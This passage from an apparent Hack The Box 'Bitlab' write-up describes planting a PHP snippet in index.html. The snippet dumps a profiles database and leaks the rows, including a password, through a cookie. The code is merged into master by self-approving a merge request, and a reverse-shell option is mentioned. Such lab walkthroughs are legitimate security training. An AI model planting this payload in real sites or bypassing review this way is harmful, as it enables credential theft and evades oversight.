 *In Both Cases, we modified the version of index.html inside the `test deploy` branch, since master was protected from direct writes*

#### Option 1: PHP DB Dump

Utilizing the php code snippet we found, we added the following code to the top of the index.html file. The goal of the code was to extract the data via a cookie.

~~~php
<?php
$db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
$result = pg_query($db_connection, "SELECT * FROM profiles");
$cookie_name =  'yummyCookie';
$output =  pg_fetch_all($result);
// Neccessary to convert data rows to a readable string
$serial = serialize($output);
setcookie($cookie_name, $serial, time() + (86400 * 1), '/'); // 86400 = 1 day (in seconds)
?>
~~~

I am sure there were other ways to exfiltrate data, but I thought doing it through a cookie would be fun. Once the index.html page was updated, I created a merge request with master. I assigned the merge request to me (so that I could approve it instantly) and then merged with master.  

We waited a minute or two, then triggered our payload by using Burp Suite Repeater to send a GET request to the /profile page. The response is below:

![Burp Payload Trigger](../../assets/img/writeups/htb/bitlab/cookie_payload.png)

The cookie is URL encoded, but can be decoded easily with Burp's built in decoder to get:

`a:1:{i:0;a:3:{s:2:"id";s:1:"1";s:8:"username";s:5:"clave";s:8:"password";s:22:"c3NoLXN0cjBuZy1wQHNz==";}}`

I am positive there is another way besides using **serial()** to turn data into strings in php. Yet, I am mostly unfamiliar with php, and this got the job done. Using this password allows us to SSH into Clave, and get the user hash.

{:refdef: style="text-align: center;"}
![Clave Shell](../../assets/img/writeups/htb/bitlab/clave_user.png)
{: refdef}


#### Option 2: PHP Reverse shell

Instead of adding the DB dump payload to the index.html page, we write a simple payload to allow us to get a reverse shell. Then we run our script locally on that box. We merge into master the same as we did above.
